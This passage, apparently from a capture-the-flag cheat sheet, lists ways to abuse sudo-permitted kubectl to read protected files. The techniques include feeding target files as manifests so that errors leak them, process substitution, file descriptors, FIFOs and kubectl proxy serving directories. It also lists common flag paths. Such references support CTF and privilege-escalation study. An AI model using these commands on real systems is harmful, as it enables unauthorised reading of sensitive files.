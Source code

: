 ```bash
echo 'apiVersion: /target/file' > invalid.yaml
sudo kubectl apply -f invalid.yaml

sudo kubectl create --validate=true -f TARGET
```

---

## 10. Network Bypass

```bash
sudo kubectl proxy --address=127.0.0.1 --port=PORT
sudo kubectl proxy --address=::1 --port=PORT
sudo kubectl proxy --unix-socket=/tmp/kubectl.sock --www=/target/dir
```

---

## 11. Common CTF File Locations

```
/flag*
/root/flag*
/home/user/flag*
/tmp/flag*
/var/tmp/flag*
/.flag*
/etc/flag*
```

---

## 12. Debugging & Troubleshooting

```bash
sudo kubectl version --client
sudo kubectl config view
sudo kubectl COMMAND --help
ps aux | grep kubectl
netstat -tlpn | grep kubectl
```

---

## 13. Process Substitution & File Descriptors

```bash
sudo kubectl apply -f <(cat /target/file)

exec 3< /target/file
sudo kubectl create -f /proc/self/fd/3

mkfifo /tmp/pipe
cat /target/file > /tmp/pipe &
sudo kubectl apply -f /tmp/pipe
```

---